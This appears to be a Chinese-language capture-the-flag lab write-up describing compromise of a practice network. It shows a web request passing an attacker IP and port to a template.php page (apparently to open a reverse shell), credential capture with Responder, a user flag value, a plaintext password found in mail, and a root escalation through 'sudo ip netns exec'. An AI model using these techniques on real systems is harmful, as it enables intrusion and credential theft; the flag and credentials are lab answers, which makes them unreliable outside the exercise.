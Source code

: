`http://ourcms.mofo.pwn:18080/theme/Innovation/template.php?ip=192.168.163.129&port=23457`

![](attachments/Pasted%20image%2020230303203156.png)

这里提权基本没戏
设置的点是responder，一个类似中间人攻击的方式来骗取其他主机的账户和密码
[【脉搏译文系列】渗透师指南之Responder - SecPulse.COM | 安全脉搏](https://www.secpulse.com/archives/65503.html)

在还是和之前一样下载responder的工具然后从kali wget
这里是在172.19.0.10这台有root权限的机器上做监听，抓取其他用户登录的密码和用户名，在这个靶场中似乎存在多台这样模拟登录的客户机
>想要完成流量的抓取，我杀掉了原本运行在80端口上的Nginx服务

![](attachments/Pasted%20image%2020230303211610.png)

利用拿到的用户名密码登录172.19.0.1的ssh

![](attachments/Pasted%20image%2020230303211737.png)

user.txt
```txt
a81be4e9b20632860d20a64c054c4150
```


现在找提权的方法

![](attachments/Pasted%20image%2020230303212852.png)

这个用户还没有办法做sudo -l

![](attachments/Pasted%20image%2020230303213245.png)

mail里有大量的邮件内容

![](attachments/Pasted%20image%2020230303212221.png)

还算友好，没有藏在中间，在末尾的部分可以一眼看到

![](attachments/Pasted%20image%2020230303212354.png)

`vickie:9f4lw0r82bn6`

现在上一vickie这个号看看
sudo -i

![](attachments/Pasted%20image%2020230303213304.png)

用ip提权

[GTFOBins](https://gtfobins.github.io/)

```
sudo ip netns add foo
sudo ip netns exec foo /bin/sh
```

![](attachments/Pasted%20image%2020230303213603.png)
